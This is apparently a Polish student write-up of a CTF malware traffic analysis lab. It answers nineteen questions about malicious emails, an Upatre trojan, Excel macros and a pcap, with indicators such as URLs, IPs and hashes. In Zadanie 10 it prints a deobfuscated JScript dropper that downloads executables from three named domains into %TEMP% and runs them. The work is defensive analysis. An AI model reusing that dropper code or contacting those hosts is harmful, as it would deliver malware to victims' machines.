


# **CTF - Malware Traffic Analysis 5**


**Opis laboratorium**

W pewnej firmie miał miejsce atak, naszym zadaniem jako analitycy SOC jest przeprowadzenie analizy powłamaniowej i odpowiedzenie na pytania zawarte na stronie CTF'a.

**Spis treści**

- [**CTF - Malware Traffic Analysis 5**](#ctf---malware-traffic-analysis-5)
  - [**Zadanie 1**](#zadanie-1)
  - [**Zadanie 2**](#zadanie-2)
  - [**Zadanie 3**](#zadanie-3)
  - [**Zadanie 4**](#zadanie-4)
  - [**Zadanie 5**](#zadanie-5)
  - [**Zadanie 6**](#zadanie-6)
  - [**Zadanie 7**](#zadanie-7)
  - [**Zadanie 8**](#zadanie-8)
  - [**Zadanie 9**](#zadanie-9)
  - [**Zadanie 10**](#zadanie-10)
  - [**Zadanie 11**](#zadanie-11)
  - [**Zadanie 12**](#zadanie-12)
  - [**Zadanie 13**](#zadanie-13)
  - [**Zadanie 14**](#zadanie-14)
  - [**Zadanie 15**](#zadanie-15)
  - [**Zadanie 16**](#zadanie-16)
  - [**Zadanie 17**](#zadanie-17)
  - [**Zadanie 18**](#zadanie-18)
  - [**Zadanie 19**](#zadanie-19)
  - [**Podsumowanie**](#podsumowanie)


<div style="page-break-after: always;"></div>

## **Zadanie 1**

**Cel:** znaleźć nazwę złośliwego pliku, który znajduje się w mailu nr 1

Korzystamy z narzędzia *Encryptomatic*, służy ono do podglądu plików .msg czy .eml. Mail zawiera załącznik z plikiem .zip.


Po pobraniu tego pliku, możemy zauważyć że w środku znajduje się plik wykonywalny (.exe).

**Opdowiedź:** `460630672421.exe`


## **Zadanie 2**

**Cel:** Określić typ trojana.

W tym celu korzystamy z narzędzia *VirusTotal*, wrzucamy tam znaleziony w poprzednim zadaniu plik .exe. 


Okazuje się, że nasz trojan należy do rodziny *Upatre*. *Trojan.Upatre* umożliwia złośliwemu pobranie oraz zainstalowanie dodatkowego złośliwego oprogramowania w dotkniętych systemach.

**Odpowiedź:** `UPATRE`


## **Zadanie 3**

**Cel:** Malware zainstalował dwa pliki o identycznym hashu (SHA256), jednak o różnych nazwach. Jaka jest wartość tego hasha?

W celu poznania wartość SHA256 skorzystamy z narzędzia do analizy hybrydowej *hybrid-analysis*. Wrzucamy tam nasz plik .exe i korzystamy z podpowiedzi zawartej w treści zadania, tzn. żeby zobaczyć raport z 2015 roku.





Następnie szukamy informacji o plikach zainstalowanych przez plik .exe. Taką informację możemy znaleźć w zakładce *Extraced Files*. Od razu możemy zobaczyć, że mamy tu do czynienia z dwoma plikami o różnej nazwie, ale o tej samej wartości SHA256.


**Odpowiedź:** `d1818c3fbbb1f09d8998ad44d14ee9a4fbfae5a1bb58128c2ac077a06d7f84b9`


## **Zadanie 4**

**Cel:** Sprawdzić, ile żądań DNS wykonał malware.

Dalej posługujemy się narzędziem *hybrid-analysis*, przechodzimy do zakładki *Network Analysis*, a następnie do zakładki *DNS Requests*, widzimy że malware dokonał 3 takich requestów.


**Odpowiedź:** `3`


## **Zadanie 5**

**Cel:** W pliku .xls (zdobytego z maila nr 2) znajdują się makra, podać najwyższy numer makra.

W tym celu korzystamy z skryptu [*oledump.py*](https://blog.didierstevens.com/programs/oledump-py/), który umożliwi nam przeanalizowanie pobranego z maila pliku.


Literą "M" oznaczone są makra, najwyższym taki numerm, gdzie występuje "M", jest 20.

**Odpowiedź:** `20`

## **Zadanie 6**

**Cel:** Podać url strony, skąd marko Excela próbowało pobrać plik.

Korzystamy ponownie z narzędzia *VirusTotal*, wrzucamy nasz plik .xls, następnie przechodzimy do zakładki *Behavior*, nieco poniżej znaduje się *HTTP Requests*. Znajdziemy tam szukany URL.


**Odpowiedź:** `http://advancedgroup.net.au/~incantin/334g5j76/897i7uxqe.exe`


## **Zadanie 7**

**Cel:** Jak nazywa się obiekt użyty do zdobycia danych z pobranego URL?

Ponownie korzystamy z *hybrid-analysis*. Żeby znaleźć tak owy obiekt musimy przeanalizować makra. Wybieramy raport z 2015 roku i szukamy zakładki *Contains Embedded VBA marcos*, szukamy linijek które odpowiadają za tworzenie obiektów. Napotkany kilka takich linijek, ale uwagę głównie przykuwa poniższa fraza zazaczona na czerwono:


Po krótkim googlowaniu okazuje się, że istenieje taki obiekt jak *Microsoft.XMLHTTP*, zatem to jest nasza odpowiedź.

**Odpowiedź:** `Microsoft.XMLHTTP`


## **Zadanie 8**

**Cel:** znaleźć plik zapisany do folderu temp.

Tę informację możemy ponownie znaleźć w narzędziu VirusTotal, w zakładce gdzie są akcje rejestru (Registry Actions).


**Odpowiedź**: `tghtop.exe`

<div style="page-break-after: always;"></div>

## **Zadanie 9**

**Cel:** Mail nr 3: Znaleźć FQDN (*Fully Qualified Domain Name*) użyte przez atakującego.

Po wrzuceniu maila do *VirusTotal* możemy zobaczyć z jakimi domenami DNS połączony jest nasz plik.


Pierwsza domena pasuje do naszej odpowiedzi, samą domenę możemy znaleźć też w pliku załączonym do maila nr 3. Odwołań do tej domeny jest sporo, poniżej znajduje się jedno z nich


**Odpowiedź:** `jpmmotos.pt`


## **Zadanie 10**

**Cel:** Email 4: Ile FQDN znajduje się w złośliwym pliku js?

W *Encryptomatic* możemy zobaczyć że treść emaila nr 4 nakłania użytkownika aby pobrał paczkę z rzekomą fakturą.


Gdy uruchomimy plik .js, to nie zobaczymy niestety żadnego FQDN, dlatego że kod został zaobfuskowany. Różne analizery wykazały obecność jedynie jednej domeny, jednak ta odpowiedź jest nieprawidłowa, zatem musimy dokonać deobfuskacji kodu, korzystamy zatem z narzędzia *de4js*. Wklejamy zobfuskowany kod i wybieramy opcję *Eval*.
Otrzymujemy poniższy kod:

```javascript
var b = "kennedy.sitoserver.com nzvincent.com abama.org".split(" ");
var ws = WScript.CreateObject("WScript.Shell");
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + "799755";
var xo = WScript.CreateObject("MSXML2.XMLHTTP");
var xa = WScript.CreateObject("ADODB.Stream");
var ld = 0;
for (var n = 1; n <= 3; n++) {
    for (var i = ld; i < b.length; i++) {
        var dn = 0;
        try {
            xo.open("GET", "http://" + b[i] + "/counter/?id=" + str + "&rnd=309034" + n, false);
            xo.send();
            if (xo.status == 200) {
                xa.open();
                xa.type = 1;
                xa.write(xo.responseBody);
                if (xa.size > 1000) {
                    dn = 1;
                    xa.position = 0;
                    xa.saveToFile(fn + n + ".exe", 2);
```

<div style="page-break-after: always;"></div>

```javascript
                    try {
                        ws.Run(fn + n + ".exe", 1, 0);
                    } catch (er) {};
                };
                xa.close();
            };
            if (dn == 1) {
                ld = i;
                break;
            };
        } catch (er) {};
    };
};
```

Jak widzimy zmienna *b* zawiera wszystki FQDN i jest ich razem 3.

**Odpowiedź**: `3`

## **Zadanie 11**

**Cel:** jak nazywa się obiekt odpowiadający za obsługiwanie i czytanie plików.

Korzystamy z deobfuskowanego kodu powyżej, jedynym obiektem który obsługuje i odczytuje pliki jest ADODB.Stream.

```javascript
var xa = WScript.CreateObject("ADODB.Stream");
```

**Odpowiedź:** `ADODB.Stream`

## **Zadanie 12**

**Cel:** Dowiedzieć się jaki plik otworzyła ofiara (analiza pliku .pcap).

Co trzeba zrobić? Trzeba przeanalizować każdy email i przeanalizować ruch sieciowy zawarty w pliku .pcap. W celu analizy ruchu sieciowego skorzystamy z programu *Wireshark*. Rozpoczniemy od emaila nr 4, gdyż mamy podane wyżej jego DNSy (w kodzie js).

```javascript
var b = "kennedy.sitoserver.com nzvincent.com abama.org".split(" ");
```

W programie Wireshark otwieramy nasz plik pcap. Zacznijmy od przeanalizowania pierwszej domeny tzn. "kennedy.sitoserver.com". Wybieramy Edytuj -> Znajdź Pakiet, wybieramy opcję String i wpisujemy kennedy.sitoserver.com. Odziwo od razu znajdujemy odpowiedni pakiet, z DNS kennedy.sitoserver.com.


Upewniliśmy się też, że pozostałe maile nie odwoływały się do kennedy.sitoserver.com, zatem użytkownik musiał otworzyć załącznik z maila nr 4, czyli poniższy zaznaczony na czerwono plik:


**Odpowiedź:** `fax000497762.zip`

## **Zadanie 13**

**Cel:** znaleźć IP ofiary

Z racji tego że plik .pcap jest z komputera ofiary to przedstawia on ruch sieciowy związany z urządzeniem ofiary oraz pozostałymi uczestnikami ruchu, w zdecydowanej większności pakietów powtarza się IP 10.3.66.103, więc pewnie to jest adres ofiary. Jednak jest to zbyt niechlujne wytłumaczenie. Najlepiej jest spojrzeć np. na DNS request, widzimy że ofiara dokonuje zapytania DNS, a następnie dostaje odpowiedź (response), jak w poniższym przykładzie.


**Odpowiedź**: `10.3.66.103`

## **Zadanie 14**

**Cel:** znaleźć nazwę maszyny ofiary

Zauważliśmy że na samym początku pliku .pcap (początku ruchu sieciowego) pojawia się połączenie między 10.3.66.103 a 10.3.66.255 - połączenie to oparte jest na protokóle NBNS, które rejestruje urządznie STROUT-PC. Zatem zaatakowanym urządzeniem jest STROUT-PC.


**Odpowiedź:** `STROUT-PC`

<div style="page-break-after: always;"></div>

## **Zadanie 15**

**Cel:** Jaki jest FQDN, który spowodował utworzenie złośliwego oprogramowania na komputerze ofiary?

Ten FQDN znaleźliśmy już de facto w zadaniu 12, jest to kennedy.sitoserver.com.

**Odpowiedź:** `kennedy.sitoserver.com`

## **Zadanie 16**

**Cel:** Znaleźć plik który jako pierwszy został zapisany do folderu Temp

Korzystamy z *hybrid-analysis* i wrzucamy tam plik .js. Uruchamiamy raport z 2017 roku i przechodzimy do zakładki *Creates a writable file in a temporary directory*. Widzimy że pierwszym utworzonym plikem jest *7997551.exe*.


**Odpowiedź:** `7997551.exe`


## **Zadanie 17**

**Cel:** Który klucz rejestru sprawdza istnienie tego malware'u?

Eksportujemy obiekty HTTP z Wiresharka, będą nas interesować tylko obiekty z *kennedy.sitoserver.com*, następnie sprawdzamy który obiekt ma hash md5 o wartości 35a09d67bee10c6aff48826717680c1c, okazuje się że plik o końcówce 43 ma taki hash.


Następnie korzystamy z disassemblera *Immunity Debugger* i szukamy RegOpenKeyA, który uruchamia poszczególny klucz rejestru, ustawiamy zatem w programie breakpoint poleceniem `bp RegOpenKeyA` (1) i uruchamiamy program (2). W prawym dolnym rogu możemy zobaczyć wartość klucza rejestru (3).


**Odpowiedź:** `9a83a958-b859-11d1-aa90-00aa00ba3258`

## **Zadanie 18**

**Cel:** Znaleźć IP serwera do którego malware wykonał żądanie POST.

W treści zadania mamy podane, że musimy przyjrzeć się bliżej plikowi, który ma hash MD5 o wartości: e2fc96114e61288fc413118327c76d93. Posłużymy się oczywiście wyeksportowanymi obiektami z Wiresharka oraz narzędziami: *VirusTotal* - w celu pozanania wartości MD5 plików oraz *hybrid-analysis* w celu detekcja serwera który wykonał żądanie POST.





Plik z końcówki 41 okazał się mieć wyżej podany hash, więc będziemy go analizować w *hybrid-analysis*. Wrzucamy nasz plik oraz wybieramy raport *file.exe*, w którym już na samym początku znajdziemy informację o tym, że plik wykonuje żądanie POST, wystarczy jedynie znaleźć z jakiego IP wykonywane jest owo żądanie. W treści zadanie było również wspomniane że owe żądanie jest wykonywane do pliku *upload.php*.


Żądanie POST do upload.php wykonało się tylko z jednego serwera: 78.24.220.229, zatem jest to nasza odpowiedź.

**Odpowiedź:** `78.24.220.229`


## **Zadanie 19**

**Cel:** Podać adres IP serwera do którego malware zainicjował callback.

Uruchamiamy program *Wireshark*, zakładkę Conversations oraz TCP. Wywołany przez malware callback być może spowodował wysłanie z komputera ofiary jakichś plików, więc ten callback będziemy mogli poznać po wielkści wysłanych bajtów. Połączenie, które przesłało najwięcej bajtów danych było między komputerem ofiary a IP 109.68.191.31.


Gdy przyjrzymy się dokładniej tej konwersacji, stosując odpowiednie filtry wyświetlania, będziemy mogli zobaczyć również wykonanie złośliwego żądana HTTP GET.


**Odpowiedź:** `109.68.191.31`


## **Podsumowanie**

Powyższe zadania laboratoryjne:

* Nauczyły nas podstaw analizy malware - jak korzystać z takich narzędzi jak *Hybrid-Analysis* czy *VirusTotal*
* Udoskonaliły umiejętności pozyskane na laboratorium nr I, gdzie uczyliśmy się podstaw analizy ruchu sieciowego
* Nauczyły nas jak radzić sobie w sytuacji gdy mamy do czynienia z zaobfuskowanym kodem 
* Uświadomiły nas, że w trakcie analizy malware trzeba korzystasć z różnych narzędzi jak np. program do odczytawania maili *Encryptomatic* czy disassembler *Immunity Debugger*.


